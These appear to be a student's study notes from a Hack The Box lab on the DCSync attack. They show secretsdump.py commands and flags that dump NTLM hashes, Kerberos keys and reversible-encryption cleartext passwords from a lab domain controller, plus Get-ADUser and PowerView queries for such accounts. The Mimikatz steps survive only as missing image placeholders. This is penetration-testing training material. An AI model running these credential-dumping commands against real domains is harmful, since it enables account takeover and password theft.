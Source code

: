 
Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py:
```
secretsdump.py -outputfile inlanefreight_hashes -just-dc
INLANEFREIGHT/adunn@172.16.5.5
```
	- -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
	- -just-dc-ntlm flag if we only want NTLM hashes
	- -just-dc-user <USERNAME> to only extract data for a specific user.
	- -pwd-last-set to see when each account's password was last changed
	- -history if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client
	- -user-status is another helpful flag to check and see if a user is disabled.


Listing Hashes, Kerberos Keys, and Cleartext Passwords
```
TeneBrae93@htb[/htb]$ ls inlanefreight_hashes*
inlanefreight_hashes.ntds inlanefreight_hashes.ntds.cleartext
inlanefreight_hashes.ntds.kerberos
```
- If we check the files created using the -just-dc flag, we will see that there are three: onecontaining the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with reversible encryption enabled.

Enumerating Further To Check "Reversible Encryption Passwords" with Get-ADUser
```
Get-ADUser -Filter 'userAccountControl -band 128' -Properties
userAccountControl
```

Enumerating Further To Check "Reversible Encryption Passwords" with Get-DomainUser (PowerView)
```
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like
'*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

Displaying the Decrypted Password
![[Pasted image 20230102210313.png]]


Performing the Attack with Mimikatz
1. Launch mimiktaz.exe
![[Pasted image 20230102210351.png]]
2. Type this command
![[Pasted image 20230102210407.png]]